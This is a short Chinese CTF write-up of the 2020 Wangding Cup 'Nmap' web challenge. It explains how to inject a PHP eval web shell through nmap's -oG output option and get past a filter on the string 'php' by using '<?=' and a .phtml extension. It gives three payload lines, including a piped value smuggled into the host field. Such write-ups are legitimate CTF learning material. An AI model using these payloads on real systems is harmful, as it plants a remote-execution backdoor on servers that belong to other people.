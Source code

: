 # [网鼎杯 2020 朱雀组]Nmap

## 知识点

`nmap写入shell`

## 解题

网页首页为

![](./img/[网鼎杯2020朱雀组]Nmap-1.png)

要我们输入`host`或者`ip`，尝试输入一个`127.0.0.1`

![](./img/[网鼎杯2020朱雀组]Nmap-2.png)

有点类似[[BUUCTF 2018\]Online Tool]([BUUCTF 2018]Online Tool.md)，继续尝试`-oG`输出为`webshell`

```
<?php eval($_POST[1]);?> -oG 1.php
```

发现被过滤，逐段尝试时发现`php`这个词会被过滤,`<?php`可以修改为`<?=`,后面的`.php`修改为`1.phtml`

```
' <?= eval($_POST[1]);?> -oG 1.phtml '
```

如果需要为了保证结果正常，我们可以使用管道符连接(不正常也可以连接`shell`)

```
127.0.0.1 | ' <?= eval($_POST[1]);?> -oG 1.phtml '
```

> 最后单引号前需要多一个空格，否则会报错
